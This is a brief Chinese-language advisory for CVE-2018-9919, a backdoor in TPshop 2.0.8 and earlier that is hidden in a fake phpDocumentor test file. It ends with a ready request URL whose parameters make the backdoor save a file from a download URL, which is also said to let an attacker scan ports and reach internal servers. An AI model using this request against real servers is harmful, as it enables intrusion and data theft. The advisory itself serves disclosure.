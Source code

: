 ```yaml
---
title: "（CVE-2018-9919）Thinkphp Shop后门"
id: zhfly3181
---
```


# （CVE-2018-9919）Thinkphp Shop后门

## 一、漏洞简介

该漏洞源于/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php可以将文件下载到其他服务器上。远程攻击者可利用该漏洞获取敏感信息，并可能执行命令。

## 二、漏洞影响

Backdoor in Tpshop <= 2.0.8

## 三、复现过程

攻击者可以利用此漏洞来攻击服务器并增加其特权，例如：下载任意文件PS！扫描网络端口PS！信息检测，攻击内部网络易受攻击的服务器。

http://www.0-sec.org/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php?bddlj=save_filename&down_url=download_url&jmmy=decryptpass